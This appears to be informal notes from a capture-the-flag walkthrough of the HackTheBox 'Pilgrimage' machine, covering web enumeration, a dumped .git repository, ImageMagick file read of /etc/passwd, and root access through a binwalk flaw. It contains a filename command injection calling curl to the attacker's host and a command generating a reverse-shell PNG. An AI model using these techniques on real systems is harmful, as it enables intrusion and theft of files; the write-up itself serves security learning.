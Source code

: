 ### inital enumeration

nmap results

Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


it has a website

![](20230722182338.png)

it has a register page

its php

so lets go dirb, gobuster

gobuster dir --url http://pilgrimage.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://pilgrimage.htb -t 50 --append-domain

nothing on the subdomain enumeration

### content upload

all shrunk pictures come on the dashboard

where pictures are stored bu there is no lfi here

![](20230722183802.png)

lets try and load a php webshell
there is content restriction it seems

php change did not work


tried to forge  php shell across

![](20230722185519.png)


### other things on website?

and there are other pathways available

/index.php            (Status: 200) [Size: 7621]
/.html                (Status: 403) [Size: 153]
/login.php            (Status: 200) [Size: 6166]
/register.php         (Status: 200) [Size: 6173]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> /]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> /login.php]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]

but all of them are forbidden now

### git

also just through drib found that .git repo is also available here

![](20230722184304.png)

but HEAD does not mention much

pip install git-dumper

git-dumper URL DIR

using git-dumper.py

was able to get the source code of the entire thing!

now need to go thorugh the code of the github

emily@pilgrimage.htb>

`exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);

`
this is the function calling it

can we add something in the name itself to make it execute?

"new|curl http://10.10.16.47:8000/iamcurling;".png

![](20230723101916.png)

### imagemagick vulnerability

IMageMagick library has an arbitrary file read vulnerability

and rce .

tested rce did not work

let check out arbitrary file read

after using the magick_exploit.py get the resultant file and usin 

convert downloaded_image.png result.png

identify -verbose result.png

(~)>>> python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin

![](20230723122440.png)

this works

so we have arbitrary file read

I have created a repo at https://github.com/fanbyprinciple/ImageMagick-lfi-poc 

### lets try and get the user flag

got the password

![](20230724003428.png)

abigchonkyboi123

![](20230724010204.png)


### privilege escalation

emily@pilgrimage:~$ netstat -pantu
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    412 10.10.11.219:22         10.10.16.47:33604       ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 10.10.11.219:49834      8.8.8.8:53              ESTABLISHED - 


no extra ports being occupied

```
0.6 209752 27220 ?        Ss   09:57   0:01 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
root         765  0.0  0.1 220796  4924 ?        Ssl  09:57   0:00 /usr/sbin/rsyslogd -n -iNONE
root         770  0.0  0.1  13852  7088 ?        Ss   09:57   0:00 /lib/systemd/systemd-logind
root         774  0.0  0.0   2516   780 ?        S    09:57   0:00 /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/
root         775  0.0  0.0   6816  2320 ?        S    09:57   0:00 /bin/bash /usr/sbin/malwarescan.sh
root         785  0.0  0.0   5844  1760 tty1     Ss+  09:57   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         802  0.0  0.1  13352  7708 ?        Ss   09:57   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         815  0.0  0.0  56376  1636 ?        Ss   09:57   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data     816  0.0  0.1  57300  6364 ?        S    09:57   0:00 nginx: worker process
www-data     817  0.0  0.1  57296  6352 ?        S    09:57   0:02 nginx: worker process
www-data     822  0.0  0.4 210128 19000 ?        S    09:57   0:00 php-fpm: pool www
www-data     824  0.0  0.4 210128 18736 ?        S    09:57   0:00 php-fpm: pool www
root        1642  0.0  0.0      0     0 ?        I    14:09   0:00 [kworker/u256:1-flush-8:0]
root        1672  0.0  0.0      0     0 ?        I    14:17   0:00 [kworker/1:2-events]
root        1695  0.0  0.0      0     0 ?        I    14:21   0:00 [kworker/0:0-cgroup_destroy]
root        1719  0.1  0.0      0     0 ?        I    14:27   0:02 [kworker/0:2-events]
root        1772  0.0  0.0      0     0 ?        I    14:39   0:00 [kworker/1:0-events]
root        1791  0.0  0.0      0     0 ?        I    14:39   0:00 [kworker/u256:2-events_unbound]
root        1832  0.0  0.2  14712  9096 ?        Ss   14:58   0:00 sshd: emily [priv]
emily       1835  0.0  0.2  15164  8604 ?        Ss   14:58   0:00 /lib/systemd/systemd --user
root        1836  0.0  0.0      0     0 ?        I    14:58   0:00 [kworker/u256:0-events_unbound]
emily       1837  0.0  0.0 101236  2516 ?        S    14:58   0:00 (sd-pam
```

nothing specific in ps -aux

but there is a script that runs

```
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

emily@pilgrimage:~$ /usr/local/bin/binwalk

Binwalk v2.3.2

`python exploit_generator.py reverse input.png 10.10.16.47 4444`

after that we moved the file to the diretory
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/binwalk_exploit.png

![](20230724020427.png)

and got root



